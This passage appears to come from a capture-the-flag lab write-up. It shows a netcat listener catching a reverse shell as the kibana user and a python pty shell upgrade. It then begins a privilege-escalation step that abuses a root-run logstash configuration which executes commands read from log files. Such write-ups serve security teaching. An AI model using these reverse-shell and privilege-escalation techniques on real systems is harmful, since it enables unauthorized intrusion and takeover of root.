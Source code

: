 A got a callback soon after:

```
# nc -lvnp 4444
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.115.
Ncat: Connection from 10.10.10.115:47552.
id
uid=994(kibana) gid=992(kibana) grupos=992(kibana) contexto=system_u:system_r:unconfined_service_t:s0
python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.2$ 
```

### Privesc

I saw earlier that logstash is running as root and with user `kibana` I have access to the configuration files in `/etc/logstash/conf.d`:

```
bash-4.2$ ls -l
total 12
-rw-r-----. 1 root kibana 131 jun 20 10:59 filter.conf
-rw-r-----. 1 root kibana 186 jun 24 08:12 input.conf
-rw-r-----. 1 root kibana 109 jun 24 08:12 output.conf
bash-4.2$ cat *
filter {
	if [type] == "execute" {
		grok {
			match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
		}
	}
}
input {
	file {
		path => "/opt/kibana/logstash_*"
		start_position => "beginning"
		sincedb_path => "/dev/null"
		stat_interval => "10 second"
		type => "execute"
		mode => "read"
	}
}
output {
	if [type] == "execute" {
		stdout { codec => json }
		exec {
			command => "%{comando} &"
		}
	}
}
```
